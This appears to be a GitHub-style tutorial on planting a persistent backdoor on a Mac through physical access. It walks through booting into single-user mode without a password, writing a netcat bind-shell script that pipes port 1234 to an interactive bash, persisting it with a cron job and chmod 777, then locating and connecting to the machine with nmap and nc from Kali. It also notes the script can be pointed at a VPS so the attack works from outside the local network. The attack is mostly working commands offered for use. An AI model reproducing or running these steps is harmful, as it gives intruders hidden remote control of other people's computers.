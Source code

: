 Create a backdoor on MacOs with a Bash payload:

Start MacOs on Single-User Mode (no password require):

	CMD + S

Check the Disk:

	/sbin/fsck -fy

Mount the Hard Drive:

	/sbin/mount –uw /

Create the Netcat Listener:

	nano /etc/payload

Payload script (changing ip):

	#!/bin/bash
	n=$(ps aux | grep -o [1]234)
	
	if [[ $n = "" ]]; then
	    mkfifo f
	    nc -l 0.0.0.0 1234 < f | /bin/bash -i > f 2>&1
	fi
	
The Netcat listener will open port 1234 on the macOS device. The first line (n=$(ps aux | grep -o [1]234)), creates a variable n, which checks to see if port 1234 is already open. This port detection is achieved using ps, a tool used to view running background processes.

The following line (if [[ $n = "" ]]; then) is the start of an if statement which says if the variable n (port 1234) is not found, mkfifo, a tool used to create a "named pipe," will create a file called f. The filename here is totally arbitrary and uses "f" for simplicity.

Following mkfifo is the Netcat command (nc -l 0.0.0.0 1234 < f | /bin/bash -i > f 2>&1), which opens port 1234 on every available IPv4 interface (0.0.0.0) and uses the f file to pipe terminal commands to and from the backdoored device.

	
Use Cron to Execute the Script:

	env EDITOR=nano crontab -e
	* * * * * /etc/payload (configure cron task)

	crontab -l > mycron
	echo "* * * * * /etc/payload" >> mycron
	crontab mycron
	rm mycron

Elevate the File Permissions:

	chmod 777 /etc/payload 

Shutdown the Mac:

	shutdown -h now

---------------------------------------------------------------------

Connect to the Backdoored Mac:

	nmap -p1234,65534 -O 192.168.0.1/24 (search ip of MacOs)

	nc 192.168.0.65 1234 (on kali)

Fix the Misconfigured Source File:

After establishing a connection to the Netcat listener, the shell will likely be primitive with no knowledge of where programs are located on the OS. For example, using ifconfig to view interfaces fails with "ifconfig: command not found."

To fix this, use the below source command:

	source /etc/profile

Post exploitation:

	system_profiler
	uname
	etc...

We can use a server (ex: VPS) to perform this attack. In that case we don't need to be on the same network and we have to set the IP of the server directly on the bash script because we know the IP and this one never change.

